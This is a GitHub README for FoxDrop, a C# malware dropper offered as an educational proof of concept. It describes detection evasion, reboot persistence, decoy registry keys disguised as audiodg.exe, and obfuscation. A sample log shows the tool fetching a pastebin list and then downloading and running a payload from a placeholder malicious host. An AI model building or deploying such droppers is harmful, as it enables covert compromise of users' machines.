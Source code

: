 <img align="center" src="https://cdn.lypd0.com/FoxDrop/logo.png">


<h1 align="center">FoxDrop - A Malware Dropper Proof-of-Concept</h1>
<p align="center">
  <a href="#"><img alt="forksBDG" src="https://img.shields.io/github/forks/lypd0/FoxDrop?style=for-the-badge"></a>
  <a href="#"><img alt="starsBDG" src="https://img.shields.io/github/stars/lypd0/FoxDrop?style=for-the-badge"></a>
  <a href="#"><img alt="licenseBDG" src="https://img.shields.io/github/license/lypd0/FoxDrop?style=for-the-badge"></a>
  <a href="#"><img alt="languageBDG" src="https://img.shields.io/badge/LANGUAGE-CSHARP-green?style=for-the-badge"></a>
<h3 align="center">Usage on unauthorized systems is strictly forbidden</h3>

## Overview
FoxDrop is an educational proof-of-concept (PoC) malware dropper designed to illustrate the functionality of a dropper and its potential impact on a system. This project aims to provide insights into malware behavior, showcasing how droppers can silently infiltrate systems, execute payloads, and maintain persistence.

## Features
FoxDrop offers a range of features, including but not limited to:

- **Stealthy Execution**: FoxDrop operates discreetly, avoiding detection by traditional security measures.
- **Persistence**: It ensures its presence on the system by adding a run policy for execution on system reboot.
- **Dynamic Payload Retrieval**: FoxDrop fetches payloads from specified URLs, allowing for flexible and adaptable malware behavior.
- **Registry Manipulation**: To evade detection, FoxDrop creates decoy registry keys, camouflaging its activities.
- **Payload Integrity Checks**: FoxDrop hashes downloaded payloads and compares them to stored hashes to prevent re-execution.
- **Obfuscation Techniques**: FoxDrop supports Base64 decoding, adding an additional layer of obfuscation to its operation.

## Usage
Using FoxDrop for educational purposes involves several steps:
1. **Compilation**: Compile the provided source code using a C# compiler to generate the executable binary.
2. **Execution**: Execute the compiled binary on a target system to observe its behavior.
3. **Customization**: Customize the payload download URLs and other variables in the source code for experimentation.

## Disclaimer
FoxDrop is intended for educational purposes only. The author does not endorse or encourage any illegal or malicious use of this software. Any misuse or unethical use of FoxDrop is strictly prohibited.

## Author
FoxDrop is developed by Luigi Fiore, also known as lypd0.

## License
This project is licensed under the MIT License, allowing for exploration, modification, and distribution. Refer to the [LICENSE](LICENSE) file for detailed licensing terms.

## Troubleshooting and Debugging
FoxDrop includes built-in troubleshooting and debugging features to aid in understanding its behavior. These features provide insights into FoxDrop's configuration and highlight any potential issues that may affect its operation.

FoxDrop includes built-in troubleshooting and debugging features to aid in understanding its behavior:
```cpp
[╒═■] Build Information: 
[├] Assembly Info: FoxDrop, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null
[├] Execution Path: C:\Path\To\FoxDrop.exe
[└] Polymorphic Seed: 8bc8f9bfb6b6a42640a37dcf9aa9a22b

[*] Performing Checks... 
· Polymorphism Disabled, Checking static name ... OK.
· Checking Delay ... OK.

Press ENTER to exit.
```

## Debug Log
During execution, FoxDrop logs debug information to provide visibility into its operations. This debug log offers detailed information about FoxDrop's actions, facilitating analysis and comprehension of its behavior.

```cpp
[*] Waiting 300000 ms ...
[*] First execution on system: TRUE.
[*] Folder "92cbea44" created in the Registry.
[*] Created BEA key.
[*] Created "ShortcutName" key with value "Windows Audio Device Graph Isolation".
[*] Created "Path" key with value "C:\Windows\System32\audiodg.exe".
[*] Reading content from "https://pastebin.com/raw/b4SYNyAT".
[*] Loaded following data: "https://malicious.website/malware.exe;C:\Users\User\Downloads\malware.exe".
[*] Downloading & executing payload from "https://malicious.website/malware.exe"
[*] Downloaded payload to C:\Users\User\Downloads\malware.exe
[*] Payload started from C:\Users\User\Downloads\malware.exe
[*] Payload hash (md5) added to list to prevent re-execution.
```

## Conclusion
FoxDrop serves as a valuable educational tool for understanding malware droppers and their implications. By exploring its features and behavior, users can gain insights into malware tactics and enhance their cybersecurity knowledge and defenses.
